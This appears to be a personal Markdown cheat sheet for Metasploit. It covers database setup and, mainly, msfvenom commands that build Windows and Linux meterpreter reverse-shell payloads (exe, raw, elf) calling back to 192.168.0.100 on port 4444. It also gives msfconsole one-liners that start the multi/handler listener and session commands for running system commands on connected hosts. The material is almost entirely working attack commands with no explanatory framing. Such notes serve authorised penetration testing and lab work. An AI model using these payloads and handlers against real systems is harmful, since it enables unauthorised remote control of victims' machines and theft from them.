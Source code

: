 DB
--- 

__msf db init:__  
>
> sudo systemctl enable postgresql  
> sudo systemctl start postgresql  
> sudo msfdb init  
>
> msfconsole -q  
> `msf > db_status`

__upd msf pg collation:__  
>
> sudo -u postgres psql  
> `# \l`  
> `# \c msf`  
> `# REINDEX DATABASE msf;`  
> `# ALTER DATABASE msf REFRESH COLLATION VERSION;`  
> `# \q`  

MTR
---

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100t.exe  
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100t_x64.exe  

> `msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set ExitFunc thread;set ExitOnSession false;set LHOST 192.168.0.100;set LPORT 4444;run"`

> msfconsole -q  
>
> `msf > use exploit/multi/handler`    
>
> `msf > set PAYLOAD windows/meterpreter/reverse_tcp`  
> `msf > set LHOST 192.168.0.100`    
> `msf > set LPORT 4444`    
> `msf > set ExitOnSession false`    
> `msf > exploit -j`

> `msf> jobs -l`  
> `msf> sessions -l`
  
> `msf> run -j # run -jz # run`

`help`  
> `msf> sessions -h`  
> `msf> run -h`
> `msf> jobs -h`
 
`sessions`  
> `msf > sessions -l   # list all sessions`  
> `msf > sessions -i 1 # switch to session 1`

> `msf > sessions -n session_name_one -i 1 # set session name`  

> `msf > sessions -i 1 -c "whoami" # run sys cmd at 1 session `  
> `msf > sessions -i 1 -C "sysinfo" # run mtr cmd at 1 session`  

> `msf > sessions -c "tasklist" all # run sys cmd at all sessions`  

> `msf > session -K # kill all sessions`  
> `msf > sessions -k 1 # kill 1 session`  

> `meterpreter > background # current session to background`  
> `meterpreter > exit # exit from current session`  

---

> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f raw -o _mtr100h.bin  
> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f exe -o _mtr100h.exe  

> `msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set ExitOnSession false;set ExitFunc thread;set LHOST 192.168.0.100;set LPORT 4444;run"`  

> msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f elf -o _mtr100t_x64.elf  
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.120 LPORT=4444 -f elf -o _mtr120t_x86.elf  

> `msfconsole -q -x "use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set ExitOnSession false; set LHOST 192.168.0.100;set LPORT 4444;run"`  

---
  